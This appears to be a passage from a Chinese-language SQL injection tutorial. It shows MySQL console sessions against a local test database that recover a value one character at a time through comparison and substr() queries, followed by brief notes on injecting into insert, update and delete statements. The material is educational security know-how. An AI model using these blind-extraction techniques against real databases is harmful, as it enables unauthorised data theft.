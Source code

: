 ```
+------------------------------------+
| (select 'aa')>(select * from test) |
+------------------------------------+
| 0                                  |
+------------------------------------+
1 row in set
Time: 0.009s
mysql root@localhost:sql_injection_test> select (select 'ab')>(select * from test);
+------------------------------------+
| (select 'ab')>(select * from test) |
+------------------------------------+
| 0                                  |
+------------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select 'ac')>(select * from test);
+------------------------------------+
| (select 'ac')>(select * from test) |
+------------------------------------+
| 1                                  |
+------------------------------------+
1 row in set
Time: 0.008s
```

```
mysql root@localhost:sql_injection_test> select (select 'abb')=substr((select * from test),1,3);
+-------------------------------------------------+
| (select 'abb')=substr((select * from test),1,3) |
+-------------------------------------------------+
| 0                                               |
+-------------------------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select (select 'abc')=substr((select * from test),1,3);
+-------------------------------------------------+
| (select 'abc')=substr((select * from test),1,3) |
+-------------------------------------------------+
| 1                                               |
+-------------------------------------------------+
1 row in set
Time: 0.008s
```

## insert update delete注入

与`select`不同,没有数据直接回显,通常结合报错注入或延时注入

>insert注入会产生大量垃圾数据,delete注入要注意防止条件为永真

### update注入技巧
